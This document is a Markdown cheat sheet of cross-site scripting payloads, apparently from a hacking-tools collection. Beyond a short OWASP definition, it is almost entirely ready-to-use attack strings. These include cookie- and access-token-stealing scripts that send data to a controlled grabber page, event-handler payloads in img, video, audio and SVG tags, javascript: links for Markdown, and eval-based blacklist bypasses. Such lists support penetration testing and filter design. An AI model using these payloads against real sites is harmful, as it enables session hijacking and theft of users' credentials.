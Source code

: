 # XSS
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
>
>Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

> 📖 More information: https://owasp.org/www-community/attacks/xss/

---

## Data grabber for XSS
> Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```js
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```
```js
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```

## XSS in HTML/Applications
### Basic Payload
```js
<script>alert('XSS')</script>
```
```js
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
```js
"><script>alert("XSS")</script>
```
```js
"><script>alert(String.fromCharCode(88,83,83))</script>
```

### Img tag payload
```html
<img src=x onerror=alert('XSS');>
```
```html
<img src=x onerror=alert('XSS')//
```
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```
```html
"><img src=x onerror=alert("XSS");>
```
```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

### Video tag payload
```html
<video autoplay onloadstart="alert('XSS')" src=x></video>
```
```html
<video autoplay controls onplay="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadeddata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadedmetadata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadstart="alert('XSS')"><source src="x"></video>
```
```html
<video controls oncanplay="alert('XSS')"><source src="x"></video>
```

### Audio tag payload
```html
<audio autoplay controls onplay="alert('XSS')"><source src="x"></audio>
```
```html
<audio autoplay controls onplaying="alert('XSS')"><source src="x"></audio>
```

## XSS in Markdown
```md
[a](javascript:prompt(document.cookie))
```
```md
[a](j a v a s c r i p t:prompt(document.cookie))
```
```md
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```
```md
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG (short)
```html
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
```
```html
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```
```html
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```
```html
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

## Bypass word blacklist with code evaluation
```js
eval('ale'+'rt(0)');
```
```js
Function('ale'+'rt(1)')();
```
```js
new Function`alert`6``;
```
```js
setTimeout('ale'+'rt(2)');
```
```js
setInterval('ale'+'rt(10)');
```
```js
Set.constructor('ale'+'rt(13)')();
```
```js
Set.constructor`alert(14)```;
```

---

## 📚 References
- [owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsec.expert/posts/xss-in-2021/](https://netsec.expert/posts/xss-in-2021/)
- [portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [en.wikipedia.org/wiki/Cross-site_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)